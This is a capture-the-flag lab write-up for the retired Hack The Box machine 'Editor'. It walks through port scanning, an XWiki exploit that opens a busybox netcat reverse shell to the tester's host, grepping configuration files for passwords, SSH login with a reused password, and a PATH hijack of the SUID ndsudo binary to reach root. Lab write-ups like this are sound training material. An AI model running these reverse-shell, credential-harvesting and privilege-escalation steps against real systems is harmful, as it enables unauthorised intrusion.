







# Editor

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">XWiki</span>
<span class="wu-tag">Credential reuse</span>
<span class="wu-tag">PATH hijack</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Editor required two different kinds of source awareness: recognizing the exposed XWiki version and noticing which files its service user could read. Once I reached Oliver, a SUID Netdata helper trusted a command name resolved through PATH.

## Attack path

1. Exploit XWiki 15.10.8 on port 8080 for a shell as xwiki.
2. Read XWiki configuration and reuse a recovered password for Oliver's SSH account.
3. Place the compiled nvme payload first in PATH and invoke the SUID ndsudo binary.

[HTB machine](https://app.hackthebox.com/machines/684) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/684) (checked November 17, 2026).

## Enumeration

```fish
set -x IP 10.10.11.80

# Rustscan - fast port scanner
rustscan -a $IP

# nmapAutomator
sudo nmapAutomator -H $IP -t recon

# Initial fast port discovery
set ports (nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports

# Nmap TCP Scan
sudo nmap -p$ports -sC -sV -O --script=vuln --script-timeout=30 $IP -oA scan_tcp

# Nmap UDP Scan
sudo nmap -sU --top-ports 1000 --min-rate=500 -T4 -sC -sV -oA scan_udp $IP
```

### Enumeration Results
```text
Host: 10.10.11.80 (editor.htb)  Ports: 22/open/tcp//ssh//OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)/, 80/open/tcp//http//nginx 1.18.0 (Ubuntu)/, 8080/open/tcp//http//Jetty 10.0.20/
```

### Service Enumeration
#### 80

* Redirects to *editor.htb*
	* Added to /etc/hosts
* wfuzz didn't bring back anything interesting

#### 8080

* `http://editor.htb:8080`
* XWiki 15.10.8
	* Vulnerable to CVE-2025-24893

---
## Foothold
[Reference](https://github.com/gunzf0x/CVE-2025-24893)

Download the above POC, then start an NC listener on the appropriate port. Use the following to catch a shell
```bash
python3 exp1.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.14.10 9005 -e /bin/bash' 
```

<figure class="wu-evidence" markdown>

<figcaption>The XWiki exploit returns a shell as xwiki.</figcaption>
</figure>

---
## Lateral Movement
As user `xwiki`, we're very restricted on what actions we can perform on the machine. 
We cannot:

* Use sudo
* view /home/oliver
	* assumingly where our first flag is

Since we're at a dead end, let's upload linpeas onto the host.

<figure class="wu-evidence" markdown>

<figcaption>LinPEAS is transferred and run from the target&#x27;s temporary directory.</figcaption>
</figure>

LinPEAS grouped this XWiki cache configuration under a Jenkins-related check; that label did not establish that Jenkins was installed.

<figure class="wu-evidence" markdown>

<figcaption>A LinPEAS label points to an XWiki cache configuration file.</figcaption>
</figure>

While nothing is found in this particular file, we can use the following command to search for "password" located in any files under `/etc/xwiki`
```text
grep -iR --color=always 'password' .
```

<figure class="wu-evidence" markdown>

<figcaption>Searching XWiki configuration exposes database passwords.</figcaption>
</figure>

```text
theEd1t0rTeam99
xwikipassword2025
```

Since we know both that SSH is opened from our initial enumeration and the user flag is likely in the `/home/oliver` directory, let's attempt to SSH onto the server:

```bash
ssh oliver@10.10.11.80
theEd1t0rTeam99
```

---
## Privilege escalation
As our new user, `oliver`, run linpeas.sh to see if any new information appears as immediately we can see this user does not have any sudo privileges.

Notice the `ndsudo` SUID binary

<figure class="wu-evidence" markdown>

<figcaption>Local enumeration identifies Netdata&#x27;s SUID helpers.</figcaption>
</figure>

`ndsudo` has a PE vulnerability: https://github.com/AzureADTrent/CVE-2024-32019-POC

Download the PoC and compile the payload on Kali (`gcc poc.c -o nvme`, as shown in the saved screenshot). Then, upload the `nvme` payload onto the target, following the directions on the README

<figure class="wu-evidence" markdown>

<figcaption>The recorded payload is compiled as nvme.</figcaption>
</figure>

<figure class="wu-evidence" markdown>

<figcaption>Invoking ndsudo with the modified PATH produces a root identity.</figcaption>
</figure>

On target:
```bash
chmod +x /tmp/nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

**Note:** While the trigger on the README shows `./ndsudo nvme-list`, I was unable to trigger the exploit. Instead, I searched the SUIDs and used the full path from the output.

### Recorded privilege verification

The identity output below is transcribed from the original screenshot; flag values and the flag-bearing image are omitted.

```text
oliver@editor:/tmp$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
root@editor:/tmp# whoami
root
```

## Lessons learned

Application configuration passwords can be reused outside the database. For the root step, ndsudo's SUID bit mattered together with its command lookup through an attacker-controlled PATH.
